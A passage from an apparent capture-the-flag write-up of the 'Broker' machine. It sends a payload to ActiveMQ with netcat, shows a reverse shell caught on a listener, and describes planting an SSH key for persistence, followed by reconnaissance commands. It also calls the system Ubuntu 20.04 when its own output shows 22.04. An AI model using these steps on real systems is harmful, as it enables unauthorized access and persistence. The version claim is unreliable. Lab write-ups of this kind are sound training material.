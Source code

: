 ```sh
❯ echo -ne $COMMAND | nc -w "1" "10.10.11.243" "61616"
```

If we check our listener:

```
connect to [10.10.14.4] from (UNKNOWN) [10.10.11.243] 53694
<SNIP>
activemq@broker:/opt/apache-activemq-5.15.15/bin$
```

It caught the reverse shell!

### Stabilizing the shell

Our home folder doesn't contain a `.ssh` folder, so I'll create one. Then I'll
create a private key and I'll add the corresponding key to `authorized_keys`.
Finally I'll connect over SSH as `activemq`. This way, I'll have a much more
stable shell.

## Getting a lay of the land

If we run `whoami`, we see that we got a foothold as `activemq`.

### Architecture

What is Broker's architecture?

```sh
activemq@broker:~$ uname -m
```

```
x86_64
```

It's using x86_64. Let's keep that in mind to select the appropriate binaries.

### Distribution

Let's see which distribution Broker is using.

```sh
activemq@broker:~$ cat "/etc/lsb-release"
```

```
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=22.04
DISTRIB_CODENAME=jammy
DISTRIB_DESCRIPTION="Ubuntu 22.04.3 LTS"
```

Okay, so it's Ubuntu 20.04.

### Kernel
